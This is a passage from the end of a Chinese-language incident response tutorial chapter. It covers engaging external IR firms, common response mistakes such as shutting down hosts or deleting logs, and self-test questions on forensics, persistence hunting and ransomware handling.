- 实务：报警与通报的时机由法务+指挥官共同决定，但**不要等"处理完再说"**——迟报本身可能违规。

### 11.4 外部 IR 团队

内部无深度取证能力时引入外部应急响应服务商（云厂商安全应急、商业 IR 公司）。触发：P1、涉及法律证据、rootkit/内核级攻击。合同与联系方式**事前**准备好（准备阶段事项），而不是出事当天谈采购。

---

## 12. 常见误区

1. **发现即 shutdown**——毁掉最易失的内存证据；先按 Order of Volatility 固定；
2. **在被入侵主机上现场下载工具**——污染证据且下载源可能被劫持；用准备好的工具包；
3. **杀掉挖矿进程就算处置完**——不找入口与持久化，一周后原样复发；
4. **把备份当救命稻草却从不验证恢复**——勒索当天发现备份也加密；
5. **多人对外发声**——口径混乱引发二次舆情；只有沟通角色可对外；
6. **复盘变追责会**——下次没人再及时上报；
7. **删掉日志"清理现场"**——1102 与日志缺失本身即监管处罚点，也毁掉自己的调查线索。

---

## 13. 自测问题

1. SANS 六阶段中，每阶段的"输入"和"输出"各是什么？为什么说准备阶段决定了其他所有阶段的下限？
2. P1–P4 分级的四个维度是什么？给出一个"P3 必须升级为 P2"的例子。
3. 误报排除五问是哪五问？哪一问最依赖平时建设？
4. Order of Volatility 的顺序是什么？为什么内存排在磁盘之前？断网与取证的权衡怎么做？
5. `/proc/1234/exe` 指向 `(deleted)` 说明什么？如何检测被 rootkit 隐藏的进程？
6. 排查 Linux 持久化至少要查哪六处？每处写出一条命令。
7. SUID 文件排查后如何判断哪个是后门？`/etc/ld.so.preload` 被利用的原理是什么？
8. 勒索事件里为什么"不用密钥先取证"？备份恢复决策树的第一优先解是什么？
9. 挖矿进程的父进程如何指导入口回溯？举两个"父进程→入口"的映射例子。
10. 复盘报告的 RCA 五问是什么？为什么复盘必须无指责？
11. 证据保管链要记录哪些要素？为什么分析必须在副本上做？
12. 你的团队现在有一个 P2 挖矿事件，写出前 60 分钟的十步动作清单（提示：检测→固定→遏制→上报）。

---

（完 · 上一篇：`33-安全-SDLC.md` ｜ 安全工程阶段完）


---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「1. 应急响应定义与生命周期（NIST 四阶段 / SANS 六步）」节 · SANS 六阶段流程图（含复盘回流） | flowchart LR |
